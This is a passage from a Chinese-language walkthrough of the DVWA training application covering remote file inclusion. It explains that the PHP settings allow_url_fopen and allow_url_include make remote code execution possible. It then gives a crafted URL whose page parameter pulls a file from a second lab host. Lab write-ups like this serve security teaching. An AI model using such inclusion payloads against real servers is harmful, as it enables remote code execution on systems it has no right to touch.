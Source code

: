 ![](DVWA.assets/dvwa-low-9.png)



2.远程文件包含

当服务器的php配置中，选项allow_url_fopen与allow_url_include为开启状态时，服务器会允许包含远程服务器上的文件，如果对文件来源没有检查的话，就容易导致任意远程代码执行。在远程服务器192.168.124.1上传一个info.txt文件，内容如下

![](DVWA.assets/dvwa-low-10.png)

构造url为

`http://192.168.124.131/vulnerabilities/fi/?page=http://192.168.124.1/upload/upload/info.txt`

![](DVWA.assets/dvwa-low-11.png)